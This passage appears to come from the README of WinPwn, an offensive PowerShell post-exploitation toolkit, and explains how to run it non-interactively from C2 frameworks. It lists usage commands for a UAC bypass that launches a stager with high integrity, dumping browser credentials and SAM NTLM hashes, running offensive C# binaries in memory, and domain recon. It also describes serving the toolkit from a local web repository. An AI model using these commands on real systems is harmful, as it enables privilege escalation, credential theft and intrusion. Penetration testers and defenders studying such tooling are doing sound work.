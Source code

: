 * #### `Bluekeep` -> Bluekeep Scanner for domain systems

Without parameters, most of the functions can only be used from an interactive shell. So i decided to add the parameters `-noninteractive` and `-consoleoutput` to make the script usable from 
an asynchronous C2-Framework like Empire, Covenant, Cobalt Strike or others.
Additionally the `-repo` parameter was added to use WinPwn with all its features from a local repository. They can be used as follows:

Usage: 

  -noninteractive 	-> No questions for functions so that they run with predefined or user defined parameters  
            
  -consoleoutput    -> The loot/report folders are not created. Every function returns the output to the console 
				    so that you can take a look at everything in the Agent logs of your C2-Framework 
Examples:

`WinPwn -noninteractive -consoleoutput -DomainRecon` 	-> This will return every single domain recon script and 
														   function and will probably give you really much output

`WinPwn -noninteractive -consoleoutput -Localrecon` 	-> This will enumerate as much information for the local
														   system as possible
														   
`Generalrecon -noninteractive`							-> Execute basic local recon functions and store the output
														   in the corresponding folders

`UACBypass -noninteractive -command "C:\temp\stager.exe" -technique ccmstp`	-> Execute a stager in  a high integrity 
																			   process from a low privileged session
																			   
`Kittielocal -noninteractive -consoleoutput -browsercredentials`			-> Dump Browser-Credentials via Sharpweb
																			   returning the output to console
																			   
`Kittielocal -noninteractive -browsercredentials`								-> Dump SAM File NTLM-Hashes and store
																			   the output in a file
																			   
`WinPwn -PowerSharpPack -consoleoutput -noninteractive`					    -> Execute Seatbelt, PowerUp, Watson and 
																			   more C# binaries in memory
																			   
`Dotnetsearch -consoleoutput -noninteractive`						    -> Search in `C:\Program Files\` and `C:\Program Files (x86)\` for .NET assemblies

`WinPwn -repo http://192.168.1.10:8000/WinPwn_Repo`					-> Use a local webserver as offline repo to use WinPwn without internet access	

Get_WinPwn_Repo.sh:

Usage:
./Get_WinPwn_Repo.sh {Option}

Example:
./Get_WinPwn_Repo.sh --install

Options:
--install             Download the repository and place it to ./WinPwn_Repo/
--remove              Remove the repository ./WinPwn_Repo/
--reinstall           Remove the repository and download a new one to ./WinPwn_Repo/
--start-server        Start a python HTTP server on port 8000
--help                Show this help
